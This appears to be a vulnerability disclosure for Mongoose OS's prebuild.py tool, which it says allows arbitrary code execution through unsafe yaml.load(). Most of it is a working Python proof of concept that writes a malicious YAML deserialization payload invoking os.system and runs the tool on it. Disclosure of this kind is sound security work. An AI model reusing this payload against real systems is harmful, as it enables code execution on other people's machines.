 # Description
**Arbitrary Code Excecution** in prebuilt.py tools of Mongoose-os repo .Prebuild.py is a utility for prebuilding binary libs and apps.
Mongoose OS - an IoT Firmware Development Framework. Supported microcontrollers: ESP32, ESP8266, CC3220, CC3200, STM32F4, STM32L4, STM32F7. Amazon AWS IoT, Microsoft Azure, Google IoT Core integrated. Code in C or JavaScript..
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. 
# Exploit code
**Python File**
```python
import os
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.system('git clone https://github.com/cesanta/mongoose-os.git')
os.chdir('mongoose-os/tools/')
os.system('rm exploit.yml')
open('exploit.yml','w+').write(exploit)
os.system('python prebuild.py --config exploit.yml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/787336571665121300/Screenshot_from_2020-12-12_20-40-28.png)
